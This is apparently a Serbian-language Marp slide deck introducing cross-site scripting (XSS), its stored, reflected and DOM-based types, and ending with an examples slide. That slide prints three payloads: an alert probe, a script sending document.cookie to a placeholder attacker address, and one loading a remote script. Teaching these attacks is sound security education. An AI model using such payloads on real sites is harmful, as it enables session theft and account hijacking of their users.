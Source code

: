 ```yaml
---
marp: true
theme: gaia
_class: lead
paginate: true
backgroundColor: #fff
backgroundImage: url('https://marp.app/assets/hero-background.svg')
---
```


# XSS - Cross Site Scripting

![](https://cdn-images-1.medium.com/max/1200/1*tMkutRJYKsRjd7hAsKiuWQ.jpeg)

---

# Definicija i tipovi

* XSS je sigurnosni propust u veb aplikacijama koji dozvoljava napadaču da injektuje malicioznu klijentsku skriptu u veb stranicu koja je kasnije dostupna drugim korisnicma.
* Najčešći sigurnosni propust u veb aplikacijama
* Tipovi:
 * Snimljeni XSS (Persistent/Stored XSS)
 * Reflektujući XSS (Reflected XSS)
 * Serverski i DOM-bazirani XSS (Server and DOM-based XSS)
 
---
# Snimljeni XSS 
* Najopasnija vrsta XSS
* Maliciozni kod ostaje na serveru
 * Zastupljen na forumima i sajtovima koji dozvoljavaju korisnicma da postavljaju html formatirane podatke
 * Ili napadač može da izmeni html kod stranice
---
# Reflektujući XSS
* Više zastupljen
* Često se nalazi u HTML formama
* Najčešće se koristi sa url-om koji ima XSS napad lociran unutar linka
---
# Primeri
* Generiše upozorenje
 * ```http...index.php?NAME=Guest<script>alert('XSS')</script>```
* Poslati kolačiće napadaču  
 * ``` <script>new Image().src="http://ip_adresa_napadaca/b.php?"+document.cookie;</script> ```
* Poziv skripte sa drugog sajta
	* ```<script>document.write('<script src=http://primer.com/xss.js></script>')</script>```
  
---
